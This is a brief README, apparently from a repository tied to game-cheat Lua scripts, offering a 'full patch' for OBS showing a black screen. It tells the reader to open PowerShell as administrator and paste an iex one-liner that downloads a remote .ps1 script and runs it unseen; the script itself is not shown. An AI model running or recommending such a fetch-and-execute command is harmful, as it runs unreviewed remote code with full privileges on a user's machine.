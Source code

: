# READ THIS BEFORE USING

If your OBS doesn't crash, but shows a black screen, try this script and there is a pretty high chance that this will help.
It's a full patch, so it moves all DLLs and such to where they have to be.

## Usage Instructions
> 1. Open 'Windows Powershell' with administrator privileges (MUST RUN AS ADMINISTRATOR OR IT WON'T WORK!)
> 2. Paste the following code into the command line:
> <code> iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/BlueElixir/aimware-luas/main/OBS%20FIX/obs-fix.ps1')); </code>
> 3. Wait for the operation to finish

If everything went well, OBS will work too.
